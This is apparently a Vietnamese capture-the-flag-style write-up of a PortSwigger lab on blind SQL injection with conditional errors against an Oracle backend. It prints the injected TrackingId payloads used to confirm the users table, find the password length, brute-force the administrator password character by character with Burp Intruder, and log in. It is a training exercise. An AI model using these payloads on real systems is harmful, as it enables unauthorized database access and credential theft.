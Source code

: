 ## Blind SQL injection with conditional errors

Sau khi thử TrackingId để tìm ra cơ sở dữ liệu Lab đang sử dụng thì chỉ có câu lệnh này sẽ load được còn các lệnh từ các csdl khác đều sẽ error => Oracle
> **TrackingId=k7oJYXEj2adTxvrq'+UNION+SELECT+banner+FROM+v$version--**

Nhưng ở đây, mặc dù load thành công mà nó lại không hiển thị lên gì cả (ta xác định nó có thể là blind), do đó chúng ta sẽ thử điều kiện lỗi để xác định.

Sử dụng query như bên dưới, chúng ta có thể áp dụng phép nối chuỗi trong Oracle

```markdown
**TrackingId=k7oJYXEj2adTxvrq'||(SELECT '' FROM DUAL)||'**
```

![](/imgs/SQL-Injection/50.png?raw=true)

Ta sẽ sử dụng query như sau để kiểm tra bảng có tồn tại không (nó sẽ trả về đúng nếu có 1 bảng users tồn tại):
```markdown
**TrackingId=k7oJYXEj2adTxvrq'||(SELECT '' FROM users where rownum=1)||'**
```

![](/imgs/SQL-Injection/51.png?raw=true)

Kiểm tra như thế đủ rồi, chúng ta sẽ tiến hành inject vào 1 điều kiện lỗi để database xử lý xem như thế nào.
> **SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual (cheatsheet Oracle database)** ([cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) hân hạnh tài trợ chương trình này....)

Chúng ta sẽ áp dụng vào
```markdown
**TrackingId=k7oJYXEj2adTxvrq'||(SELECT CASE WHEN (1=0) THEN to_char(1/0) ELSE NULL END FROM dual)||'**
```

Hàm to_char để chuyển số hoặc ngày tháng sang chuỗi (nhưng ở đây nó sẽ trả ra lỗi bởi vì đó là phép tính 1/0 :v)

=> Có nghĩa là nếu điều kiện 1=0 đúng thì sẽ trả về vế phía trước thực thi hàm to_char(1/0) còn ngược lại sẽ là NULL;

![](/imgs/SQL-Injection/52.png?raw=true)

Vì trả về là NULL nên web vẫn load bình thường, chúng ta cũng có thể test thử với trường hợp là 1=1 sẽ cho ra Internal Server Error.

Từ đây chúng ta có thể hiểu là ***ĐÚNG THÀNH SAI, SAI THÀNH ĐÚNG*** (bởi vì nếu điều kiện đúng sẽ trả ra 'internal server error' và điều kiện sai thì sẽ trả ra bình thường) :v

Ta sẽ áp dụng công thức sau đây để tránh bị rối não trước khi xuống tiếp phía dưới.

> Đúng + Đúng -> Trả ra Error (Do thực thi cái hàm To_Char)

> Đúng + Sai -> Trả về bình thường (do query trả về là NULL)

Chúng ta sẽ tiếp tục
```markdown
**TrackingId=k7oJYXEj2adTxvrq'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users where username='administrator')||'**
```

Hoặc chúng ta có thể
```markdown
**TrackingId=k7oJYXEj2adTxvrq'||(SELECT to_char(1/0) FROM users where username='administrator')||'**
```

Nhưng ở phần Solution có gợi ý dùng cái câu điều kiện sai cũng hay hay nên triển luôn =)))

> Vế này đã thêm 1 điều kiện where ở sau, nếu chỉ có 1 điều kiện 1=1 thì nó sẽ trả về error như đã nói ở bên trên, nhưng nếu điều kiện where mà có user là administrator (nó sẽ là True) và nó vẫn sẽ trả về Error.

> Và nếu thay administrator thành 1 user không hề tồn tại nó sẽ load bình thường
Ví dụ thêm chữ ‘s’ sau administrator => Load bình thường => Chã có user nào administrators (có s) cả.

![](/imgs/SQL-Injection/53.png?raw=true)

Còn không có ‘s’ => Load Error => user có tồn tại

![](/imgs/SQL-Injection/54.png?raw=true)

Sau khi đã xác nhận administrator có tồn tại thì chúng ta sẽ xác định password có chiều dài bao nhiêu.

```markdown
**TrackingId=k7oJYXEj2adTxvrq'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users where username='administrator' and LENGTH(password)>50)||'**
```

***Nhắc lại 1 lần nữa, vẫn như ý ở trên, nếu password mà > 50 mà sai nữa => Web load bình thường.
Còn nếu password nhỏ hơn 50 => Web load Error.***

![](/imgs/SQL-Injection/55.png?raw=true)

Chúng ta sẽ tiến hành bruteforce để xem chính xác password có chiều dài bao nhiêu.

Send Request sang Intruder và set lại dấu đô la ngay số 50 để đánh dấu đó là biến. Sau đó sang payload và chọn bruteforce kiểu number từ 1-50 với step là 1.

Như hình bên dưới ta có thể xác định được password có chiều dài chính xác 20 kí tự.

![](/imgs/SQL-Injection/56.png?raw=true)

Tiếp tục áp dụng lại kỹ thuật như Lab 9 chúng ta sẽ sử dụng 2 biến ở chỗ số thứ tự substring (độ dài pass) và 1 biến nữa là chuỗi để so sánh.
> **TrackingId=k7oJYXEj2adTxvrq'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users where username='administrator' and Substr(password,§1§,1)='§h§')||'**  (Substr là hàm tách chuỗi ở oracle)

![](/imgs/SQL-Injection/57.png?raw=true)

Sắp xếp theo thứ tự payload1 tương ứng với giá trị payload2 ta sẽ được Drbd91cznbq7e5gv4liv

Login vào tài khoản administrator là solve

![](/imgs/SQL-Injection/58.png?raw=true)




